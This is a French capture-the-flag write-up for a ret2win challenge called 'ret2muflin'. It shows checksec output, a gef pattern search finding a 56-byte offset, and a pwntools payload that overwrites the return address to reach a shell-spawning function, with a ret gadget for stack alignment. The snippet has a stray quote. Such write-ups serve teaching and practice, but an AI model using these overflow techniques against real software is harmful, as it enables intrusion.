



# ret2muflin

## Énoncé
Pour ce challenge, vous devez arriver à destination, mais le GPS ne semble pas vouloir comprendre ce que vous dites.

## Résolution
On reçoit uniquement un fichier compilé, voyons voir comment il se décompile : 
.

On a un buffer de 48 octets, et un appel à `gets`. Buffer overflow donc.

Qu'en faire ? Heureusement on voit qu'il y a une autre fonction que `main`, `muflin` : 


qui nous donne une shell. Le plan d'action est simple, il s'agit d'un simple ret2win (clin d'oeil le nom du challenge).

Voyons voir ce que checksec nous dit :
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x400000)
    Stack:    Executable
    RWX:      Has RWX segments
```
Parfait, il n'y a aucune protection il devrait suffire d'envoyer la bonne adresse pour gagner.

Avec gdb, on détermine la quantité d'octets à envoyer avant l'adresse : 
[gef](https://github.com/hugsy/gef) 

nous permet de générer une chaine de caractères à envoyer comme entrée, puis quand le programme segfault on regarde ce qui s'est retrouve dans `rsp` et on retrouve l'offset dans la chaine : 
 :

```
gef➤  pattern search haaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaana
[+] Searching for '616e616161616161616d616161616161616c616161616161616b616161616161616a61616161616161696161616161616168'/'686161616161616169616161616161616a616161616161616b616161616161616c616161616161616d616161616161616e61' with period=8
[+] Found at offset 56 (big-endian search)
```

Il faut donc envoyer 56 octets puis l'adresse à laquelle on souhaite return, [pwntools](https://github.com/Gallopsled/pwntools) à la rescousse.

On peut récupérer l'adresse de la fonction muflin de cette manière :
```python
elf = ELF("./chall")

payload = b"A" * 56"
muflin = p64(elf.symbols["muflin"])
payload += muflin
```

Cependant cela ne suffit pas : on jump bien à `muflin`, mais on segfault pendant l'exécution de la fonction `system`. C'est du au fait que le stack pointer n'est pas bien aligné. Pour le réaligner, on peut effectuer un autre return avant d'aller à `muflin`.
On peut trouver l'adresse d'une instruction `ret` avec `objdump` : `objdump -d chall`, j'ai pris par exemple 0x40117f

La version finale du script est jointe à ce fichier
